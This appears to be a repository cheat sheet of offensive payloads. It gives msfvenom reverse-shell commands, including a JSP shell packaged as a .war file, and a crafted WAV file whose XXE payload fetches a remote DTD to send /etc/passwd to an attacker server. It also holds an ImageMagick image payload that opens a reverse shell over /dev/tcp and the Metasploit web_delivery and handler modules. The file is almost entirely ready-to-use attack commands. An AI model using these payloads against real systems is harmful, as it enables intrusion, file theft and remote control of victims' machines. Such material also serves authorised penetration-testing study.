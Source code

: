 # Payloads

## Summary
- [Msfvenom](#msfvenom)
  - [Basic commands](#basic-commands)
  - [List all payloads](#list-all-payloads)
  - [Payload for Java code base (.war) file](#payload-for-java-code-base-war-file)
- [Payload for Wav file](#payload-for-wav-file)
- [Payload for Png and Jpg](#payload-for-png-and-jpg)
- [Msconsole](#msfconsole)
  - [Craft a shell script](#craft-a-shell-script)
  - [Setup a listener](#setup-a-listener)

## Msfvenom
### Basic commands
- `msfvenom -p [payloads] LHOST=[ip] LPORT=[port] -f [extension] -o [payload name]`

### List all payloads
- `msfvenom --list payloads`

### Payload for Java code base (.war file)
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f [file type] -o [output]`


## Payload for Wav file
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
nano NAMEEVIL.dtd
     ::<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/ passwd">
     ::<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
php -S 0.0.0.0:PORT
<?php echo zlib_decode(base64_decode('base64here')); ?> --> to decode the encoded text
```

## Payload for Png or Jpg
```
push graphic-context
    encoding UTF-8
    viewbox 0 0 1 1
    affine 1 0 0 1 0 0
    push graphic-context
    image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.4.64.135/80 0<&1 2>&1'
    pop graphic-context
    pop graphic-context
```
***start a listener***

## Msfconsole
### Craft a shell script
- `use exploit/multi/script/web_delivery`

### Setup a listener
- `use exploit/multi/handler`
